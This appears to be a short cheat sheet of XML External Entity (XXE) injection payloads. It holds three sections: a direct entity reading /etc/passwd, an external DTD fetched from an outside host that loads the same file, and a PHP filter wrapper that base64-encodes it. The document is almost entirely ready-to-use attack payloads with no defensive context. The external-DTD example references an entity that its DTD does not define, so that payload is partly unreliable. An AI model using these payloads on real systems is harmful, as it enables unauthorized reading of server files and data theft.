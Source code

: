 # XXE

## 1) Direct

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [ 
  <!ENTITY xxe SYSTEM "/etc/passwd">
] >
<site>
    <vuln>Vuln &xxe;</vuln>
</site>
```

## 2) External DTD

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [
  <!ENTITY % a SYSTEM "http://yourwebsite.com/ex.dtd">
  %a;
  %xxe;
] >
<site>
    <vuln>Vuln &xxe;</vuln>
</site>
```

file http://yourwebsite.com/ex.dtd
```
<!ENTITY % test SYSTEM "file:///etc/passwd">
<!ENTITY % xxe '<!ENTITY test "%test;">'>
```

## 3) Tricks

PHP wrapper:
```
<!DOCTYPE x [
<!ENTITY w00t SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<root>
    <color>&w00t;</color>
</root>
```
